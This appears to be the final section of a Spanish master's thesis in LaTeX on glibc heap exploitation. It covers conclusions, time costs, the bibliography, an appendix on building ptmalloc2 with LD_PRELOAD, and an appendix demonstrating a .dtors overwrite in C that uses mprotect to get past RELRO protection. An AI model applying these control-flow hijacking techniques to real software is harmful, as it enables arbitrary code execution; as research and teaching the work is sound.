Por �ltimo, en esta investigaci�n se ha estudiado la gesti�n de la memoria din�mica a nivel de usuario. Existen otros algoritmos utilizados para gestionar la memoria din�mica cuando se est� programando a nivel de kernel. La gesti�n de la memoria din�mica en el \textit{kernel} de Linux se realiza a trav�s del algoritmo llamado SLUB. En la versi�n 2.6.23 del kernel este algoritmo se convirti� en el algoritmo por defecto para realizar la gesti�n de la memoria din�mica. As� que ser�a de inter�s realizar un estudio de vulnerabilidades tal y como se ha hecho en esta investigaci�n. \bigskip


\pagebreak

\section{Conclusiones}

Al t�rmino de la investigaci�n los resultados obtenidos son positivos. El fruto m�s significativo es la obtenci�n de varias t�cnicas de explotaci�n del sistema con el que se gestiona la memoria din�mica en el sistema operativo GNU/Linux que no exist�an o no se hab�an publicado anteriormente. Evidentemente, este resultado supera con creces las expectativas que se ten�an en un principio. \bigskip

El principal problema al llevar a cabo esta investigaci�n ha sido la falta de documentaci�n. En cuanto a la primera parte del trabajo, donde se detallaba exhaustivamente el funcionamiento del \textit{heap}, mayormente la informaci�n detallada ha sido extra�da del propio c�digo fuente. El �nico documento existente sobre el tema se puede encontrar en \cite{UTHBBI} que a pesar de ser s�lo un \textit{draft} y de ser imposible obtener el trabajo al completo, es el �nico documento que realmente realiza un buen estudio sobre el algoritmo utilizado para implementar la gesti�n de la memoria din�mica. Sin duda, ha sido de gran ayuda aun cuando ciertas explicaciones hac�an referencia a estructuras de datos desfasadas en comparaci�n a la versi�n de la \textit{glibc} que se ha tratado en esta investigaci�n. \\
Lo m�s sorprendente es que ni el desarrollador del algoritmo \textit{ptmalloc2}, ni los programadores de la \textit{glibc} hayan desarrollado ning�n tipo de documentaci�n exhaustiva sobre el funcionamiento del algoritmo. \\
A pesar de todas estas dificultades, es justo decir que se ha conseguido dar una idea concisa de c�mo se gestiona la memoria din�mica. Y si bien es cierto que muchos conceptos se han obviado, este hecho no ha sido fruto del azar o la ignorancia, sino que la decisi�n ha sido tomada de manera consciente con el objetivo de darle al lector los conocimientos necesarios para entender todos los conceptos que se iban a tratar en los siguientes cap�tulos de la investigaci�n. \\
Adem�s, se cree que el modo de detallar las funcionalidades del algoritmo, citando el archivo de c�digo fuente y el n�mero de l�nea, da confianza al lector para adentrarse por �l mismo en el c�digo fuente y poder obtener los conocimientos necesarios para seguir desde el punto donde esta investigaci�n lo ha dejado. Por otro lado, documentar con esta metodolog�a el c�digo fuente que implementa el algoritmo permite al lector comprobar cada una de las afirmaciones hechas en esta investigaci�n, y no son pocas las afirmaciones que contradicen lo publicado en otros art�culos de este campo. \bigskip

En cuanto a la segunda parte de esta investigaci�n, tal y como ya se ha comentado, los resultados obtenidos han sido muy satisfactorios. El haber realizado un estudio exhaustivo del algoritmo me ha permitido obtener una visi�n de conjunto del funcionamiento del \textit{heap}. Del mismo modo, empezar a estudiar las t�cnicas utilizadas en el pasado para explotar el \textit{heap} hasta llegar a las t�cnicas m�s actuales tambi�n me ha permitido obtener una visi�n global del estado del arte. Gracias a este proceso de estudio, conociendo los or�genes e ir evolucionando hasta la actualidad, me ha permitido descubrir una modificaci�n a la t�cnica de explotaci�n utilizada en el pasado, que con menos requerimientos que las t�cnicas actuales, ten�a las mismas repercusiones. \\
En mi opini�n, el descubrimiento de esta modificaci�n de la t�cnica \textit{unlink}, es trivial, sin embargo, es posible que para llegar a este punto se necesitara obtener la visi�n de conjunto que se ha mencionado. Sin conocer las t�cnicas del pasado, c�mo se solucionaron y hacia d�nde han evolucionado, jam�s me hubiera dado cuenta de que con uno de los requisitos de las t�cnicas actuales se pod�a vulnerar la soluci�n que utilizaron para neutralizar la t�cnica \textit{unlink} - la que se utilizaba en el pasado. \bigskip

Tambi�n es importante darse cuenta de que las t�cnicas utilizadas para vulnerar el algoritmo encargado de realizar la gesti�n de la memoria din�mica no s�lo son aplicables a este algoritmo. El modo en el que se gestionan los datos en este algoritmo es d�bil de por si. Una gran lecci�n aprendida a partir de esta investigaci�n es que es muy peligroso mezclar los datos de control del algoritmo con los datos del usuario. La soluci�n a este problema es realmente dif�cil y posiblemente pase por la implementaci�n de medidas de seguridad a nivel de sistema operativo tales como ASLR. \\
Con esto quiero decir que seguro que existen cientos de algoritmos utilizados en otros lugares que cometen el mismo error y las t�cnicas plasmadas en esta investigaci�n de bien seguro que se pueden extrapolar a otros algoritmos. \bigskip

Por �ltimo, tambi�n me gustar�a remarcar la importancia del Ap�ndice \ref{ap:II}. Aun siendo un ap�ndice, la relevancia de los datos explicados en �l es de suma importancia. Los mecanismos introducidos por los desarrolladores del compilador \textit{gcc} han hecho que muchos de los exploits existentes a fecha de hoy se hayan vuelto obsoletos del d�a a la ma�ana. Todos aquellos exploits que utilizaban la sobrescritura de la secci�n .dtors como vector para ejecutar c�digo arbitrario han quedado obsoletos a menos que se hayan amoldado a las nuevas medidas de seguridad implementadas por el compilador. Estas nuevas medidas de seguridad han pasado desapercibidas por la mayor�a con lo que existen muy pocas referencias publicadas al respecto. Es por esta raz�n que publicarlas en una investigaci�n como esta, ayudar� a promover el conocimiento de dichas medidas de seguridad.

\pagebreak

\section{Coste temporal}

A continuaci�n se muestra una estimaci�n del tiempo dedicado al desarrollo de esta investigaci�n. Evidentemente, es imposible realizar un control exacto del n�mero de horas invertido en esta investigaci�n. Sin embargo, el hecho de haber sido met�dico durante cierto tiempo me permite tener una idea general del tiempo utilizado.\\
Con todo y con eso, la idea principal con la que se deber�a quedar el lector es el porcentaje de horas utilizadas en cada apartado en vez de fijarse en el n�mero exacto de horas. \bigskip

\UndefineShortVerb{\|} %% Necesario para poner la barra vertical entre las filas de la tabla (linea 153).
\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
	\begin{center}
	\begin{tabular}{||l | c | r||}
		\hline
		\hline
		Concepto & Horas & Porcentaje \\
		\hline
		Documentaci�n & 150 & 27.27\\
		\hline
		Realizaci�n parte te�rica & 225 & 40.9\\
		\hline
		Realizaci�n parte pr�ctica & 175 & 31.81\\
		\hline
		Horas totales & 550 & 100\\
		\hline
	\end{tabular} %%\botfigrule
	\end{center}
	\caption{Coste temporal}
   	\label{tab:coste temporal}   		
\end{table}
\DefineShortVerb{\|} 

Como se puede ver, el n�mero de horas estimado para la documentaci�n es el m�s bajo. Realmente, esta afirmaci�n es enga�osa ya que llevo muchos a�os form�ndome en el campo de la investigaci�n de vulnerabilidades y su explotaci�n. El n�mero de horas reales de lectura realmente sobrepasar�a con creces el estimado. Sin embargo, s�lo se ha hecho un c�lculo aproximado del n�mero de horas invertidas en la documentaci�n desde el momento en el que se decidi� realizar esta investigaci�n.\\
El n�mero de horas registrado como realizaci�n de la parte te�rica es el m�s conflictivo debido a que se hace realmente dif�cil diferenciar en este apartado y el de la documentaci�n. Ambos conceptos est�n bastante relacionados, pero es evidente que en el desarrollo del texto se ha invertido m�s tiempo que en la documentaci�n. \bigskip

A diferencia de otros trabajos en el campo de la ingenier�a inform�tica, en esta investigaci�n se ha invertido m�s tiempo en el desarrollo de los conceptos te�ricos que no en el desarrollo del \textit{software} en si. Esto se debe, en primer lugar, a que este trabajo es realmente una investigaci�n. Se han estudiado de forma exhaustiva muchos conceptos sobre los cuales no exist�a documentaci�n o �sta estaba obsoleta. Por tanto, el proceso de investigaci�n ha tenido que ser exhaustivo y minucioso. Por otro lado, una vez construida toda la base te�rica, la parte de \textit{software} a construir ha sido peque�a en comparaci�n a la base te�rica ya que el \textit{software} construido s�lo ha servido para corroborar lo explicado.

\pagebreak

\section{Bibliograf�a}
\renewcommand{\bibfont}{\small}
\apptocmd{\sloppy}{\hbadness 10000\relax}{}{} %% Deactivate \hbox errors on blibliography.
\begin{multicols}{2}
%% Nota para diferenciar la bibliograf�a online
\defbibnote{websites}{Nota: Los recursos aqu� citados no tienen por qu� haber pasado un proceso de revisi�n. Sin embargo, eso no significa que la calidad o veracidad de sus contenidos sea inferior a otros recursos.}
\printbibliography[type=book, title={Libros}]
\printbibliography[type=article, title={Art�culos}]
\printbibliography[type=online, title={P�ginas Web}, prenote=websites]
\end{multicols}

\pagebreak

\appendix

\section{Ap�ndice I}
\label{ap:I}

\subsection*{Cargando librer�as externas v�a LD\_PRELOAD}

En este ap�ndice se detalla el modo por el cual es posible utilizar funciones para la gesti�n de la memoria din�mica que sean externas a la \textit{glibc}. De este modo se conseguir� que cuando un programa ejecute una funci�n como por ejemplo |malloc()|, se ejecute la funci�n |malloc()| implementada en una librer�a externa. \\
En el caso que concerniente a esta investigaci�n, las funciones que se ejecutar�n ser�n aquellas implementadas en el algoritmo original \textit{ptmalloc}, de modo que, a diferencia de lo que ocurrir�a en un sistema GNU/Linux configurado por defecto, la librer�a est�ndar de C instalada en el sistema no tendr� ning�n efecto en el momento de ejecutar las funciones relacionadas con la gesti�n de la memoria din�mica del sistema.\bigskip

El primer paso a seguir es descargar el c�digo del algoritmo \textit{ptmalloc} de su p�gina web original \footnote{C�digo \textit{ptmalloc}:\url{http://www.malloc.de/malloc/ptmalloc2-current.tar.gz} }.\\
Una vez descargado se debe descomprimir con el comando:
\begin{center}
|tar xvf ptmalloc2-current.tar.gz|
\end{center}
El contenido de la carpeta descomprimida deber�a ser el siguiente:

\begin{listing}[style=consola, caption=Archivos del algoritmo \textit{ptmalloc}, label=out:ptmalloc_contents]	
newlog@ubuntu:~/Downloads/ptmalloc2$ ls -1
arena.c
ChangeLog
COPYRIGHT
hooks.c
lran2.h
Makefile
malloc.c
malloc.h
malloc-stats.c
README
sysdeps
tst-mallocstate.c
tst-mstats.c
t-test1.c
t-test2.c
t-test.h
newlog@ubuntu:~/Downloads/ptmalloc2$
\end{listing}

\pagebreak

Para compilar el c�digo s�lo ser�a necesario ejecutar el comando |make shared|. Sin embargo, si se ejecuta dicho comando se obtiene el siguiente error: \bigskip

\begin{listing}[style=consola, caption=Compilaci�n erronea de \textit{ptmalloc}, label=out:ptmalloc_err_comp]	
newlog@ubuntu:~/Downloads/ptmalloc2$ make shared
cc -shared -fpic  -g -O   -DUSE_TSD_DATA_HACK -D_REENTRANT -Isysdeps/generic -DTHREAD_STATS=1  malloc.c malloc-stats.c -o malloc.so
In file included from malloc.c:1484:
malloc.h:72: warning: "__THROW" redefined
/usr/include/sys/cdefs.h:47: note: this is the location of the previous definition
malloc.c: In function 'mremap_chunk':
malloc.c:3307: error: 'MREMAP_MAYMOVE' undeclared (first use in this function)
malloc.c:3307: error: (Each undeclared identifier is reported only once
malloc.c:3307: error: for each function it appears in.)
In file included from malloc-stats.c:27:
malloc.h:72: warning: "__THROW" redefined
/usr/include/sys/cdefs.h:47: note: this is the location of the previous definition
make: *** [malloc.so] Error 1
newlog@ubuntu:~/Downloads/ptmalloc2$
\end{listing}

Para solucionar este error basta con ir a la l�nea 693 del archivo malloc.c y modificar el siguiente c�digo:
\lstset{language=C, caption=HAVE\_MREMAP igual a 1 (malloc.c:693), label=code:err_to_compile_ptmalloc}
\begin{lstlisting}
#ifndef HAVE_MREMAP
#ifdef linux
#define HAVE_MREMAP 1
#else
#define HAVE_MREMAP 0
#endif
\end{lstlisting}

Por:

\lstset{language=C, caption=HAVE\_MREMAP igual a 0 (malloc.c:693), label=code:fix_to_compile_ptmalloc}
\begin{lstlisting}
#ifndef HAVE_MREMAP
#ifdef linux
#define HAVE_MREMAP 0
#else
#define HAVE_MREMAP 0
#endif
\end{lstlisting}

\pagebreak

Esta modificaci�n no afecta al funcionamiento del algoritmo dadas las funciones que se tratan en esta investigaci�n, as� que este cambio en el c�digo es superfluo. Una vez realizado dicho cambio basta con ejecutar el comando de nuevo: \bigskip

\begin{listing}[style=consola, caption=Compilaci�n correcta de \textit{ptmalloc}, label=out:ptmalloc_succ_comp]	
newlog@ubuntu:~/Downloads/ptmalloc2$ make shared
cc -shared -fpic  -g -O   -DUSE_TSD_DATA_HACK -D_REENTRANT -Isysdeps/generic -DTHREAD_STATS=1  malloc.c malloc-stats.c -o malloc.so
In file included from malloc.c:1484:
malloc.h:72: warning: "__THROW" redefined
/usr/include/sys/cdefs.h:47: note: this is the location of the previous definition
In file included from malloc-stats.c:27:
malloc.h:72: warning: "__THROW" redefined
/usr/include/sys/cdefs.h:47: note: this is the location of the previous definition
newlog@ubuntu:~/Downloads/ptmalloc2$ ls -1
arena.c
ChangeLog
COPYRIGHT
hooks.c
lran2.h
Makefile
malloc.c
malloc.h
malloc.so
malloc-stats.c
README
sysdeps
tst-mallocstate.c
tst-mstats.c
t-test1.c
t-test2.c
t-test.h
\end{listing}

Tal y como se puede ver, se ha generado un nuevo archivo llamado malloc.so. Esta es la librer�a que se debe cargar por tal de evitar que se ejecuten las funciones de la \textit{glibc}. Para hacerlo basta con ejecutar los siguientes comandos\footnote{Informaci�n sobre LD\_PRELOAD:\\ \url{http://en.wikipedia.org/wiki/Dynamic_linker\#ELF-based_Unix-like_systems} }: \bigskip

\begin{listing}[style=consola, caption=LD\_PRELOAD, label=out:ld_preload]
newlog@ubuntu:~/Downloads/ptmalloc2$ LD_PRELOAD=$(pwd)/malloc.so
newlog@ubuntu:~/Downloads/ptmalloc2$ export LD_PRELOAD
newlog@ubuntu:~/Downloads/ptmalloc2$ env | grep LD_PRELOAD
LD_PRELOAD=/home/newlog/Downloads/ptmalloc2/malloc.so
\end{listing}

Para eliminar esta variable de las variables de entorno y que el comportamiento del sistema vuelva a ser el mismo, basta con ejecutar el comando |unset LD_PRELOAD|. \bigskip

Por �ltimo, y de modo opcional, si el lector tiene intenci�n de ir m�s all� en el estudio del algoritmo, le ser�a de ayuda compilar el c�digo con soporte para dar informaci�n sobre las macros utilizadas una vez lo est� depurando con \textit{gdb}\footnote{Informaci�n sobre el depurador \textit{gdb}:\\ \url{http://www.gnu.org/software/gdb/}}. Para conseguirlo, se deben a�adir ciertos par�metros en el archivo Makefile. \\
Se debe a�adir la siguiente variable en la l�nea 51 (aunque no debe ser necesariamente en la l�nea 51): \bigskip

\lstset{language=C, caption=Informaci�n para las macros (Makefile:51), label=code:makefile_macro_support}
\begin{lstlisting}
MACRO_INFO = -gdwarf-2 -g3
\end{lstlisting}

A continuaci�n se debe modificar la l�nea 73 del mismo archivo para que quede tal que as�: \bigskip
\lstset{language=C, caption=Nuevos flags para la compilaci�n (Makefile:73), label=code:makefile_comp_macro_support}
\begin{lstlisting}
malloc.so: malloc.c malloc-stats.c malloc.h
        $(CC) $(MACRO_INFO) $(OPT_FLAGS) $(SH_FLAGS) $(CFLAGS) $(M_FLAGS) malloc.c malloc-stats.c -o $@
\end{lstlisting}

Como se puede ver, s�lo se ha a�adido la variable |MACRO_INFO| al conjunto de flags utilizados en el momento de la compilaci�n. \\
Gracias a esto, cuando el lector est� depurando el c�digo fuente del algoritmo, ser� capaz de obtener informaci�n sobre las macros utilizadas en el c�digo gracias a los comandos del depurador \textit{gdb} utilizados con dicho objetivo.

\pagebreak

\section{Ap�ndice II}
\label{ap:II}

\subsection*{Sobrescribiendo la secci�n .dtors en el 2012}

Se conoce como .dtors la secci�n de un ejecutable ELF donde se almacenan las direcciones en memoria de las funciones a ejecutar una vez dicho binario se haya ejecutado. Dichas funciones se conocen con el nombre de destructores. El C�digo \ref{code:destructor} servir� para entender mejor c�mo funcionan los destructores y la secci�n .dtors. \bigskip

\lstset{language=C, caption=Destructor de ejemplo , label=code:destructor}
\begin{lstlisting}
#include <stdio.h>

void destructor(void) __attribute__ ((destructor));

int main(void) {

        printf("Primero se ejecuta el main.\n");
        printf("Despues, salta a 0x%x\n", (unsigned int) &destructor);
        return 0;
}

void destructor(void) {
        printf("Y se ejecuta destructor.\n");
}
\end{lstlisting}

Si se compila y ejecuta el C�digo \ref{code:destructor} se obtiene lo siguiente: \bigskip

\begin{listing}[style=consola, caption=Compilaci�n y ejecuci�n del destructor, label=out:comp_destructor]	
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ gcc destructor.c -o destructor -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ ./destructor 
Primero se ejecuta el main.
Despues, salta a 0x8048426
Y se ejecuta destructor.
\end{listing}

Como se puede ver, el orden de ejecuci�n es claro. Primero se ejecuta la funci�n \textit{main} y despu�s se ejecuta el destructor. \\
Por otro lado, con la l�nea 8 del C�digo \ref{code:destructor} se obtiene que el c�digo ejecutable de la funci�n \textit{destructor} est� ubicado a partir de la direcci�n 0x8048426. Aqu� es donde entra la secci�n .dtors del ejecutable. Si todo es correcto, en dicha secci�n debe aparecer la direcci�n de memoria donde se almacena el c�digo del destructor: \bigskip

\pagebreak

\begin{listing}[style=consola, caption=Objdump .dtors section, label=out:objdump_dtors]	
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ objdump -s -j .dtors ./destructor

./destructor:     file format elf32-i386

Contents of section .dtors:
 8049f18 ffffffff 26840408 00000000           ....&.......    
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ 
\end{listing}

Con la herramienta \textit{objdump} se puede mostrar informaci�n sobre ejecutables. Espec�ficamente, con la opci�n \textit{-j} se le dice a \textit{objdump} que muestre informaci�n sobre una secci�n en especial del ejecutable. En el caso mostrado, de la secci�n .dtors. El flag \textit{-s} especifica que se muestre todo el contenido de la secci�n especificada.\\
La salida de \textit{objdump} se debe interpretar del siguiente modo. Una vez el binario \textit{destructor} se ejecute, su secci�n .dtors se almacenar� en la direcci�n de memoria 0x8049f18. Los contenidos de dicha secci�n son esos tres conjuntos de 4 bytes: ffffffff 26840408 00000000. El primer conjunto de 4 bytes - ffffffff - indica el inicio de dicha secci�n, y el �ltimo conjunto de 4 bytes - 00000000 - indica el fin de la secci�n. Por �ltimo, el conjunto de 4 bytes, 26840408, representa la direcci�n en \textit{little endian} donde se almacena el c�digo ejecutable del destructor. Tal y como se ha mostrado al ejecutar el c�digo, la direcci�n es 0x08048426. Destacar que si el c�digo fuente no hubiera tenido ning�n destructor, la secci�n .dtors seguir�a existiendo, sin embargo, s�lo tendr�a los primeros 4 bytes a 1 y los �ltimos 4 bytes a 0, indicando el principio y el final de la secci�n. \bigskip

Se hace evidente que si se pudiera sobrescribir el valor donde se encuentra la direcci�n del destructor, se podr�a llegar a ejecutar cualquier c�digo almacenado en memoria. El C�digo \ref{code:first_ov_dtors} est� programado a tal efecto.\bigskip

\lstset{language=C, caption=Intento para sobrescribir la secci�n .dtors , label=code:first_ov_dtors}
\begin{lstlisting}
#include <stdio.h>

void destructor(void) __attribute__ ((destructor));
void hijack(void);

int main(void) {

        printf("Primero se ejecuta el main.\n");
        printf("Despues, salta a 0x%x\n", (unsigned int) &destructor);
        unsigned int * dtr_section = (unsigned int *)0x8049f18 + 0x4;
        *dtr_section = (unsigned int) &hijack;
        return 0;
}

void destructor(void) {
        printf("Y se ejecuta destructor.\n");
}

void hijack(void) {
        printf("Hijack\n");
}
\end{lstlisting}

Como se puede ver, en la l�nea 10 se crea un puntero que apunta a la direcci�n de memoria 0x8049f1c. Dicha direcci�n es donde empieza la secci�n .dtors (0x8049f18) m�s 4 bytes. Justo donde se ubica el conjunto de 8 bytes 26840408, despu�s de ffffffff. A continuaci�n, con la l�nea 11, se sobrescribe el valor 26840408, ubicado en la direcci�n 0x8049f1c que es donde apunta la variable |dtr_section|, por la direcci�n de memoria donde se ubica la funci�n |hijack|. Si se ejecutar� este c�digo, deber�an aparecer los dos |printf|s del main y acto seguido el |printf| de la funci�n |hijack|. A continuaci�n se muestra lo que ocurre: \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n del C�digo \ref{code:first_ov_dtors}, label=out:comp_try1_destructor]	
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ gcc destructor.c -o destructor -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ ./destructor 
Primero se ejecuta el main.
Despues, salta a 0x8048439
Violaci�n de segmento
\end{listing}

A diferencia de lo que se cre�a, la ejecuci�n del C�digo \ref{code:first_ov_dtors} no ha sido satisfactoria. S�lo se han ejecutado los dos primeros |printf|s. Para entender lo que ocurre primero se deber�a depurar el c�digo con \textit{gdb}.

\begin{listing}[style=consola, caption=Depuraci�n del C�digo \ref{code:first_ov_dtors}, label=out:debug_try1_destructor]	
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ gdb -q destructor
Leyendo s�mbolos desde /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor...hecho.
(gdb) b main
Punto de interrupci�n 1 at 0x80483fd: file destructor.c, line 8.
(gdb) r
Starting program: /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor 

Breakpoint 1, main () at destructor.c:8
8		printf("Primero se ejecuta el main.\n");
(gdb) n
Primero se ejecuta el main.
9		printf("Despues, salta a 0x%x\n", (unsigned int) &destructor);
(gdb) 
Despues, salta a 0x8048439
10		unsigned int * dtr_section = (unsigned int *)(0x8049f18 + 0x4);
(gdb) 
11		*dtr_section = (unsigned int) &hijack;
(gdb) x dtr_section
0x8049f1c <__DTOR_LIST__+4>:	0x08048439
(gdb) x/3x 0x8049f18
0x8049f18 <__DTOR_LIST__>:	0xffffffff	0x08048439	0x00000000
(gdb) next

Program received signal SIGSEGV, Segmentation fault.
0x08048430 in main () at destructor.c:11
11		*dtr_section = (unsigned int) &hijack;
(gdb) x/3x 0x8049f18
0x8049f18 <__DTOR_LIST__>:	0xffffffff	0x08048439	0x00000000
(gdb) quit
Una sesi�n de depuraci�n est� activa.

	Inferior 1 [process 32367] will be killed.

�Salir de cualquier modo? (y o n) y
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ 
\end{listing}

Tal y como se puede apreciar, \textit{gdb} muestra que el ejecutable termina inesperadamente cuando se realiza la asignaci�n de la l�nea 11 del C�digo \ref{code:first_ov_dtors}. Tambi�n se puede apreciar que la variable |dtr_section| apunta a la direcci�n 0x8049f1c que es donde se encuentra la direcci�n de la funci�n |destructor|. Hasta aqu� todo es correcto, sin embargo, al realizar la escritura en memoria a trav�s del puntero |dtr_section|, el programa recibe un |SIGSEGV| y como se puede ver en la siguiente l�nea, la direcci�n de memoria 0x8049f1c sigue conteniendo el valor 0x08048439, que es la direcci�n a la funci�n |destructor|. Esto demuestra que la escritura no se ha realizado. \\
De estos datos se puede deducir que la p�gina de memoria donde se ubica la secci�n .dtors no tiene permisos de escritura. \bigskip

Sin embargo, la herramiento \textit{readelf} muestra lo contrario: \bigskip

\begin{listing}[style=consola, caption=readelf del destructor, label=out:readelf]	
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ readelf -S ./destructor | grep dtors
  [18] .dtors            PROGBITS        08049f18 000f18 00000c 00  WA  0   0  4
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ 
\end{listing}

La herramienta \textit{readelf} muestra que la secci�n .dtors empieza en la direcci�n 0x08049f18 y tiene un tama�o de 0xc bytes. Todo cuadra hasta el momento, la direcci�n de la secci�n es correcta y ocupa 12 bytes que son los tres conjuntos de 4 bytes de los que se hablaba anteriormente. Sin embargo, con las letras WA, \textit{readelf} declara que dicha p�gina de memoria tiene, entre otros, permisos de escritura, cosa que contradice la hip�tesis que se ha realizado anteriormente. \bigskip

A la luz de estos datos, y partiendo de la base de que lo m�s plausible sigue siendo que la p�gina de memoria no tenga los permisos de escritura, se realiza otra comprobaci�n. Mientras el ejecutable se depura con \textit{gdb}, se obtendr� su identificador de proceso y se consultar� su mapa de memoria. A continuaci�n se muestra el proceso a seguir. Lo primero a realizar es depurar el ejecutable y mantenerse detenido en cualquier punto de ejecuci�n mediante un \textit{breakpoint}:

\pagebreak

\begin{listing}[style=consola, caption=Depuraci�n del C�digo \ref{code:first_ov_dtors}, label=out:debug1_try1_destructor]	
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ gdb -q destructor
Leyendo s�mbolos desde /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor...hecho.
(gdb) b main
Punto de interrupci�n 1 at 0x80483fd: file destructor.c, line 8.
(gdb) r
Starting program: /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor 

Breakpoint 1, main () at destructor.c:8
8		printf("Primero se ejecuta el main.\n");
(gdb) 
\end{listing}

A continuaci�n se obtiene el PID del proceso y se consulta su mapa de memoria: \bigskip

\begin{listing}[style=consola, caption=Mapa de memoria del ejecutable, label=out:mem_map_destructor]	
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ ps axu | grep destructor
newlog   32457  0.1  0.7  14916  7304 pts/1    S+   07:21   0:00 gdb -q destructor
newlog   32459  0.0  0.0   1684   244 pts/1    t    07:21   0:00 /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor
newlog   32465  0.0  0.0   4056   772 pts/0    S+   07:22   0:00 grep --color=auto destructor 
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ cat /proc/32459/maps 
00110000-0012c000 r-xp 00000000 08:01 655474     /lib/ld-2.12.1.so
0012c000-0012d000 r--p 0001b000 08:01 655474     /lib/ld-2.12.1.so
0012d000-0012e000 rw-p 0001c000 08:01 655474     /lib/ld-2.12.1.so
0012e000-0012f000 r-xp 00000000 00:00 0          [vdso]
0012f000-00286000 r-xp 00000000 08:01 655498     /lib/libc-2.12.1.so
00286000-00287000 ---p 00157000 08:01 655498     /lib/libc-2.12.1.so
00287000-00289000 r--p 00157000 08:01 655498     /lib/libc-2.12.1.so
00289000-0028a000 rw-p 00159000 08:01 655498     /lib/libc-2.12.1.so
0028a000-0028d000 rw-p 00000000 00:00 0 
08048000-08049000 r-xp 00000000 08:01 919806     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor
08049000-0804a000 r--p 00000000 08:01 919806     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor
0804a000-0804b000 rw-p 00001000 08:01 919806     /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/destructor
b7ff0000-b7ff1000 rw-p 00000000 00:00 0 
b7ffe000-b8000000 rw-p 00000000 00:00 0 
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ 
\end{listing}

Tal y como se puede ver a partir de la herramienta \textit{ps}, el PID del ejecutable \textit{destructor} es 32459. A continuaci�n se consulta su mapa de memoria a partir del archivo \textit{maps} y, para sorpresa del lector, se podr� ver como el rango de direcciones de memoria de 08049000-0804a000, que es donde est� ubicada la secci�n .dtors, tiene los permisos r--p, con lo que se demuestra, tal y como se hab�a hipotetizado, que no se tienen permisos de escritura en dicha regi�n de memoria. \bigskip

El porqu� de este comportamiento est� detallado en la referencia bibliogr�fica \cite{RELRO}. Se debe a una medida de seguridad llamada RELRO, RELocation Read-Only.\bigskip

La soluci�n a este problema pasa por asignarle permisos de escritura a la p�gina de memoria que contiene la secci�n .dtors. A tal efecto, el C�digo \ref{code:final_ov_dtors} bastar�. \bigskip

\lstset{language=C, caption=Sobrescribiendo la secci�n .dtors , label=code:final_ov_dtors}
\begin{lstlisting}
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/mman.h>

void destructor(void) __attribute__ ((destructor));
void hijack(void);

int main(void) {

        printf("Primero se ejecuta el main.\n");
        printf("Despues, salta a 0x%x\n", (unsigned int) &destructor);

        /* Obteniendo el tamano de pagina de memoria del sistema */
        int pagesize = sysconf(_SC_PAGE_SIZE);
        if ( pagesize == -1) {
                perror("[-] Page size could not be obtained");
                exit(EXIT_FAILURE);
        }

        /* Poniendo permisos de escritura en la seccion .dtors */
        mprotect((void*)0x8049000, pagesize, PROT_WRITE);
        unsigned int * dtr_section = (unsigned int *)(0x8049f18 + 0x4);
        *dtr_section = (unsigned int) &hijack;
        return 0;
}

void destructor(void) {
        printf("Y se ejecuta destructor.\n");
}

void hijack(void) {
        printf("Hijack\n");
}
\end{lstlisting}

Con la l�nea 15 se obtiene el tama�o de las p�ginas de memoria del sistema. Normalmente este valor ser� 4096. A continuaci�n, en la l�nea 22, de la direcci�n de memoria 0x8049000 hasta la direcci�n 0x8049000 m�s el tama�o de p�gina se les pone el permiso de escritura. Si se ejecuta dicho c�digo se obtiene lo siguiente: \bigskip

\pagebreak

\begin{listing}[style=consola, caption=Sobrescritura realizada, label=out:destructor_ov_succeed]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ gcc destructor.c -o destructor -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ ./destructor 
Primero se ejecuta el main.
Despues, salta a 0x8048544
Hijack	
\end{listing}

Como se puede ver, la �ltima l�nea en escribirse es ''Hijack'' que es el c�digo de la funci�n |hijack()|, c�digo con el cual se ha sustituido el c�digo de la funci�n |destructor| a partir de modificar la secci�n .dtors. \bigskip

Como nota final, cabe destacar otra particularidad en cuanto a la sobrescritura de la secci�n .dtors. Desde que esta t�cnica fue publicada \cite{OEDSTMPE}, no s�lo se ha creado la t�cnica RELRO para intentar sufragar dicha vulnerabilidad, sino que tambi�n se ha creado otra estrategia para evitar que se ejecute un destructor si este no se ha declarado en el momento de compilaci�n. \\
Antiguamente, era posible ejecutar un destructor aun cuando este no hab�a sido declarado en el c�digo fuente. La t�cnica se basaba en sobrescribir los bytes finales - 00000000 - de la secci�n .dtors, a diferencia de lo que se ha realizado anteriormente, d�nde se ha sobrescrito la direcci�n del destructor y no el final de la secci�n. La sobrescritura del final de la secci�n .dtors enga�aba al sistema y aunque la secci�n .dtors no tuviera el formato adecuado - empezando con cuatro bytes a 1 y acabando con cuatro bytes a 0 - el c�digo ubicado en la direcci�n con la que se acababan de sobrescribir los �ltimos cuatro bytes a 0 se ejecutaba sin ning�n problema. \bigskip

